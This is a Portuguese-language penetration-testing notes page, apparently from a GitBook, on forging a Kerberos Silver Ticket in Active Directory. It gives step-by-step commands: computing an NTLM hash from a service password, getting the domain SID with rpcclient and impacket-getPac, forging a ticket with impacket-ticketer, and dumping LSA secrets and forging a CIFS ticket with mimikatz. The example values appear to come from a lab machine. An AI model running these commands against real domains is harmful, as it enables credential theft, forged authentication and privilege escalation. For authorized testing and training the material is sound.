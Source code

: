 SiverTicket
========================

Até aqui a gente já deve obter as credenciais da conta SPN seguindo o que está escrito na página anterior. ([Kerberoasting](kerberoasting.md))

No entanto, é necessário mais algumas informações pra que a gente consiga fazer o silver ticket, que consiste em gerar um ticket de SPN com as permissões que quisermos (full que seria o default das ferramentas, ou podemos setar as quais quisermos) para obter versatilidade nos recursos de rede para escalada de privilégio.

### 1 - Hash NTLM do SPN

Então precisaremos do hash nt da senha do serviço spn:

```
iconv -f ASCII -t UTF-16LE <(printf "Password") | openssl dgst -md4
```

ou

```
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Password".encode("utf-16le")).digest()))'
```

### 2 - Domain SID

Outra informação que precisamos é o domain SID que podemos obter de diversas formas, sendo elas

#### via RPC

```
rpcclient -U user <hostname>
lookupnames username
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Domain SID</p></figcaption></figure>

#### via impacket (remotely)

```
impacket-getPac domain/username:password -targetUser username
##Exemplo
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser ksimpson
```

### 3 - SPN

O nome do SPN basicamente já teremos seguindo os passos anteriores documentados em [Kerberoasting](kerberoasting.md).

Depois disso, podemos gerar o silver ticket de maneira remota ou local na máquina da vítima:

#### impacket

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain domain.name -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash ntlm_da_senha_do_spn -dc-ip hostname.dodc adm
```

Exemplo

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -dc-ip dc1.scrm.local adm
```

FAZENDO COM O HASH DE SENHA DA MÁQUINA

```
mimikatz.exe
privilege::debug
lsadump::lsa /patch
kerberos::golden /user:admin /domain:scrm.local /sid:S-1-5-21-2743207045-1827831105-2542523200 /target:DC1.scrm.local /service:cifs /rc4:a4ce9e577c1298c759340f09b3546950 /ticket:c:\temp\test_cifs.kirbi
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

